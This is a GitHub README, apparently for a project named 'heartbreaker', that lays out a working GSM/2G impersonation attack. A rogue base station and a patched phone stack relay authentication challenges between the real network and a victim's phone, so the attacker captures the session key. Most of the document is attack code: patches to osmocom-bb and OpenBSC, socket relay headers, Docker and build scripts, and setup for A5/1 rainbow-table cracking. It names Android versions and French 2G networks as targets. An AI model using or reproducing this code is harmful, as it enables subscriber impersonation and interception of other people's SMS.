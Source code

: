 --------------
Hacking 2G BTS
--------------


.. image:: test3.png
   :target: test3.png
   :alt: Attack Flow


The UE has become an MS again and we know how to be a BTS !

But even in the BTS does not authenticate MS does in front of the BTS. How can we bypass this ? By respecting the attack flow above ;)

I mean the secret is the key Ki stored on the SIM even with physical access you can't crack it thanks to the chip inventor ! But we can fool the authentication process :
The original process is :


* The BTS send a rand,key_sequence to the MS.
* The MS respond SRes = f(ki,rand)
* The MS cipher the communication with Kc= f(Ki,rand,key_seq)

The hacked process is :


* The genuine BTS send a rand,key_seq to the Evil MS.
* The Evil MS send it to our Evil BTS via socket between Evil BTS server and Evil MS client.
* The Evil BTS send the rand,key_seq to genuine MS
* The Genuine MS respond sres -> Evil BTS -> Evil MS -> Genuine BTS
* In the example video Kc is forwarded between Genuine MS-> Evil MS

`Impersonnate PoC <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With french explanations ;) sorry...

`Impersonalisaion (français) <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With english explanation (now ;)
`Impersonate (english) <https://www.youtube.com/watch?v=rSGA4oFsFrQ>`_

https://imgur.com/lUjkpGp
First of all there is a bug with brltty so

.. code-block:: bash

   apt remove brltty

on host (not on docker !)
Launch 1st

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah

Launch 2nd

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts (socket are made to work with theses addresses)

in bts

.. code-block:: bash

   tmux
   cd /
   service pcscd start
   ./evil-bts.sh

`
then in ms :

.. code-block:: bash

   tmux
   cd /
   bash trx.sh
   ctrl-b c 
   ./evil-ms.sh

set IMSI in OpenBSC (via telnet)
and in /root/.osmocom/bb/mobile.cfg
and set any ki but set one in OpenBSC
need a motorola c1** and a sim reader

What happen next ?

`Crack A5/1 <https://brmlab.cz/project/gsm/deka/attack-implementation>`_

5s to crack it before the Kc ciphered channel timeout has been gone and if it is done we have incomming SMS.

Targets android < 12, telco 2G until 2025 in France

Thank for reading !

Clients-servers architecture :
------------------------------

.. code-block::

   bsc-2rfa 172.17.0.2
   server rand 888 listen on 0.0.0.0
   client sres 666 -> 172.17.0.3

   bb-2rfa 172.17.0.3
   client rand 888 -> 172.17.0.2
   server sres 666 listen on 0.0.0.0
   server kc 777 listen on 0.0.0.0

   osmocom-genuine-ms 172.17.0.2
   client kc 777 -> 172.17.0.3

Headers :
---------

suppress_space.h

.. code-block:: c

   #include <stdio.h>
   char res[100];
   char* spaces(char str [])
   {
   int i = 0;int j = 0;
          while (str[i] != '\0')
          {
             if ((str[i] == ' ') != 1) {
               res[j] = str[i];
               j++;
             }
             i++;
          }
          res[j] = '\0';
   return res;}

hex.h

.. code-block:: c

   /*
    * Read hex strings and output as text.
    *
    * No checking of the characters is done, but the strings must have an even
    * length.
    *
    * $Id: hex2ascii.c,v 1.1 2009/09/19 23:56:49 grog Exp $
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include "suppress_space.h"
   char hexdigit (char c)
   {
     char outc;

     outc = c -'0';
     if (outc > 9)                                 /* A - F or a - f */
       outc -= 7;                                  /* A - F */
     if (outc > 15)                                /* a - f? */
       outc -= 32;
     if ((outc > 15) || (outc < 0))
     {
       fprintf (stderr, "Invalid character %c, aborting\n", c);
       exit (1);
     }
     return outc;
   }
   char ascii[17];
   const unsigned char* hex2ascii(char hexval[])
   {  int arg;
     char *c=spaces(hexval);
     int sl;
     char oc;

     for (arg = 0; arg < 17; arg++)
     {
       sl = strlen (c);
       if (sl & 1)                                 /* odd length */
       {
         fprintf (stderr,
                  "%s is %d chars long, must be even\n",
                  c,
                  sl );
         return "prout";
       }int i=0;
       while (*c)
       {
         oc = (hexdigit (*c++) << 4) + hexdigit (*c++);
         fputc (oc, stdout);
         strcat(ascii,&oc);
       }
     }
   return ascii;}

client.h (respect address and port of client server arch)

.. code-block:: c

   /**
    * Example taken from CS 241 @ UIUC
    * Edited by Austin Walters
    * Used as example for austingwalters.com,
    * in socket IPC explanation.
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>

   void client(char buffer[]){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);

     struct addrinfo info, *result;
     memset(&info, 0, sizeof(struct addrinfo));
     info.ai_family = AF_INET;
     info.ai_socktype = SOCK_STREAM;

     if(0 != getaddrinfo("172.17.0.3", "888", &info, &result))
       exit(1);

     /* Connects to bound socket on the server */  
     connect(sock_fd, result->ai_addr, result->ai_addrlen);

     printf("SENDING: %s", buffer);
     write(sock_fd, buffer, strlen(buffer));

     char resp[999];
     int len = strlen(buffer);
     resp[len] = '\0';
     printf("%s\n", resp);
   }

server.h (respect variable length : 13 for sres, 25 for kc, 51 for rand, and port from arch client-server) 

.. code-block:: c

   /**
    * Written by Austin Walters
    * For an example on austingwalters.com,
    * on sockets
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>
   char text[13];
   char* catch_sres(){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);
     struct addrinfo directives, *result;
     memset(&directives, 0, sizeof(struct addrinfo));
     directives.ai_family = AF_INET;
     directives.ai_socktype = SOCK_STREAM;
     directives.ai_flags = AI_PASSIVE;

     /* Translates IP, port, protocal into struct */
     if(0 !=  getaddrinfo("0.0.0.0", "666", &directives, &result))
       exit(1);

     /* Binds socket to port, so we know where new connections form */
     if(bind(sock_fd, result->ai_addr, result->ai_addrlen) != 0)
         exit(1);
     /* Places socket to "listen" or "wait for stuff" state */
     if(listen(sock_fd, 10) != 0)
         exit(1);
     int i=0;
     printf("Waiting for connection on http://0.0.0.0:666 ...\n");
     while(i==0){

       /* Accepts Connection */
       char buffer[1000];
       int client_fd = accept(sock_fd, NULL, NULL); 
       int len = read(client_fd, buffer, 999);
       buffer[len] = '\0';

       char * header = "<b>You Connected to the Server!</b></br></br>";
       i=i+1;
       write(client_fd, header, strlen(header));

       printf("=== Client Sent ===\n");
       printf("%s\n", buffer);
       memcpy(text,buffer,13);
       close(client_fd);

     }
     return text;
   }

Evil-MS :
---------

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fc20a37cb375dac11f45b78a446237c70f00841c
   wget https://gitlab.com/francoip/thesis/raw/public/patch/thesis.patch
   patch -p1 < thesis.patch

.. code-block:: patch

   diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
   --- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:39:46.222274989 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c 2022-08-30 15:35:55.472598046 +0200
   @@ -20,6 +20,7 @@
     */

    #include <stdint.h>
   +#include <string.h>
    #include <errno.h>
    #include <stdio.h>
    #include <string.h>
   @@ -41,7 +42,7 @@
    #include <osmocom/bb/mobile/app_mobile.h>
    #include <osmocom/bb/mobile/vty.h>
    #include <osmocom/bb/mobile/dos.h>
   -
   +#include "client.h"
    extern void *l23_ctx;

    void mm_conn_free(struct gsm48_mm_conn *conn);
   @@ -1662,6 +1663,15 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   char test2[]="1";
   +   sprintf(test2, "%d", ar->key_seq);
   +   char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcat(test3,test2);
   +   char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcpy(test,osmo_hexdump(ar->rand,16));
   +   strcat(test,test3);
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
   +   client(test);
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
   --- osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:38:53.125893570 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c   2022-08-30 15:35:55.476598075 +0200
   @@ -30,6 +30,11 @@
    #include <osmocom/bb/common/osmocom_data.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   +#include "server.h"
   +#include "server2.h"
   +#include "hex.h"
   +#include "hex2.h"
   +

    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
   @@ -945,14 +950,21 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   -       memcpy(subscr->key, vec->kc, 8);
   +

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   +                char *h4ck3d_kc;
   +                h4ck3d_kc = catch_kc();
   +                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
   +       char *h4ck3d_sres;
   +       h4ck3d_sres = catch_sres();
   +           const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
   +       memcpy(subscr->key, my_h4ck3d_kc, 8);
           nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
   -       if (!nmsg)
   -           return -ENOMEM;
           nmme = (struct gsm48_mm_event *) nmsg->data;
   -       memcpy(nmme->sres, vec->sres, 4);
   +           memcpy(nmme->sres,my_h4ck3d_sres, 4);
   +       LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
   +       LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
           gsm48_mmevent_msg(ms, nmsg);

           return 0;

Genuine-MS (Kc Forwarding)
--------------------------

Patch osmocom-bb

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fixeria/trxcon

.. code-block:: patch

   diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
   --- trx/src/host/layer23/src/mobile/gsm48_mm.c  2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:51:17.267099639 +0200
   @@ -1651,6 +1651,7 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));  
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru trx/src/host/layer23/src/mobile/subscriber.c osmocom-bb/src/host/layer23/src/mobile/subscriber.c
   --- trx/src/host/layer23/src/mobile/subscriber.c    2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:51:17.267099639 +0200
   @@ -32,7 +32,7 @@
    #include <osmocom/bb/common/sap_proto.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   -
   +#include "client.h"
    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
    //#define TEST_EMPTY_FPLMN
   @@ -369,6 +369,7 @@

       /* key */
       memcpy(subscr->key, data, 8);
   +   //client(osmo_hexdump(subscr->key,8));

       /* key sequence */
       subscr->key_seq = data[8] & 0x07;
   @@ -907,7 +908,7 @@
       struct msgb *nmsg;
       struct sim_hdr *nsh;

   -   /* not a SIM */
   +   /* not a SIM
       if (!GSM_SIM_IS_READER(subscr->sim_type)
        || !subscr->sim_valid || no_sim) {
           struct gsm48_mm_event *nmme;
   @@ -944,6 +945,7 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   +       //client(osmo_hexdump(vec->kc,8));
           memcpy(subscr->key, vec->kc, 8);

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   @@ -969,6 +971,7 @@

       /* random */
       memcpy(msgb_put(nmsg, 16), rand, 16);
   +   LOGP(DMM, LOGL_NOTICE, "Key Sequence=%d\n",key_seq);

       /* store sequence */
       subscr->key_seq = key_seq;
   @@ -1019,7 +1022,9 @@
       nsh->file = 0x6f20;
       data = msgb_put(nmsg, 9);
       memcpy(data, subscr->key, 8);
   -   data[8] = subscr->key_seq;
   +        LOGP(DMM, LOGL_NOTICE, "KC=%s\n",osmo_hexdump(subscr->key,8));
   +   client(osmo_hexdump(subscr->key,8));
   +   data[8] = subscr->key;
       sim_job(ms, nmsg);

       /* return signed response */

Patch OpenBSC Evil-BTS:
-----------------------

.. code-block:: bash

   git clone https://github.com/osmocom/openbsc
   git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898

.. code-block:: patch

   diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
   --- openbsc/openbsc/src/libmsc/gsm_04_08.c  2022-08-30 16:59:20.033455224 +0200
   +++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c 2022-08-30 15:51:17.243099474 +0200
   @@ -70,7 +70,10 @@
    #include <osmocom/gsm/tlv.h>

    #include <assert.h>
   +#include "server.h"
   +#include "hex.h"
   +#include "client.h"

    void *tall_locop_ctx;
    void *tall_authciphop_ctx;

   @@ -908,6 +911,20 @@
       struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
       struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
       struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
   +        DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
   +   
   +
   +
   +   char *test;
   +   test=catch_rand();
   +   printf("test %s\n",test);
   +   char *randy=strtok(test," -");
   +   printf("rand %s\n",rand);
   +   char *kandy_seq=strtok(NULL,"-");
   +   printf("key_seq %s\n",kandy_seq);
   +   char *randy_magnum = spaces(randy);
   +        const unsigned char *randynator=hex2ascii(randy_magnum);
   +        memcpy(rand,randynator,16);

       DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
       if (autn)
   @@ -917,7 +934,7 @@
       gh->proto_discr = GSM48_PDISC_MM;
       gh->msg_type = GSM48_MT_MM_AUTH_REQ;

   -   ar->key_seq = key_seq;
   +   ar->key_seq = kandy_seq;

Installing BTS-Evil:
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig


   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil :
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig
   cd ..

   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil
------------------

.. code-block:: bash

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 0.9.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig

   cd ../bb-2rfa/src
   make nofirmware

**A5/1 Cracking**
---------------------

Download the tables :

`a51_tables <https://infocon.org/rainbow%20tables/A51/>`_

Prepare them :

.. code-block:: bash


   #!/bin/bash
   offset_total=0
   echo 0 > test
   for abblay in $echo $(ls /media/$USER/tables) ; do abblay2=$(echo $abblay | sed 's/.dlt//g');
   cd /media/$USER/indexes/
   /media/$USER/indexes/kraken/TableConvert/TableConvert di /media/$USER/tables/$abblay2.dlt $abblay2.ins:$offset_total $abblay2.idx
   taille_arrondie=$(echo $(( $(( $(stat -c%s $abblay2.ins)/4096 )) +1 )) *4096 | bc)
   offset_total=$(($taille_arrondie + $offset_total))
   echo $taille_arrondie >> test
   done
   awk '{S+=$0}{print S}END{}' test > offsets
   git clone http://jenda.hrach.eu/p/deka
   git clone https://github.com/0x7678/typhon-vx/tree/master/kraken
   sudo add-apt-repository ppa:deadsnakes/ppa
   sudo apt update
   sudo apt install python3.7 python3.7-dev nvidia-utils-515-server xserver-xorg-video-nvidia-515
   sudo python3.7 -m pip install pyopencl numpy scipy
   cd deka
   ./genkernel64.sh > slice.c
   sed -i -e 's/3.5m/3.7m/g' Makefile
   make

\newpage

----
